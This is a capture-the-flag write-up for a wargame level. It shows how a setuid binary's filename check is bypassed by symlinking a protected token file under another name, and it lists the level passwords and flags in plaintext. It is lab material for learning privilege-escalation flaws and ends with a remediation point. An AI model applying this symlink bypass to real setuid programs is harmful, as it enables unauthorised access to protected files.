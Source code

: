 # Solve Level08
pass : fiumuikeil55xe9cu4dood66h

## Description
- home
    - -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
    - -rw-------  1 flag08  flag08    26 Mar  5  2016 token

### level08
The binary take a file as arg and print 1024 first char. If the file name contain 'token' return an error.
- if no arg ==> "./level08 [file to read]"
- if the file path has "token" ==> "You may not access '(xxx/)token'" (find strstr() with decompiler)
  - we can create an alias of the file with a different name, ```man ln``` ==> works
- if other name ==> print 1024 first bytes
- if no perm ==> error 'Unable to open %s'

## Solution
```bash
ln -s ~/token /tmp/pouet
./level08 /tmp/pouet
#quif5eloekouj29ke0vouxean ==> be carefull it's the pass of flag08 not level09
```
- flag08 : quif5eloekouj29ke0vouxean
- level09 : 25749xKZ8L7DkSCwJkT9dyv6f

## Resolve problem
- do not validate the authenticity of a file with its name


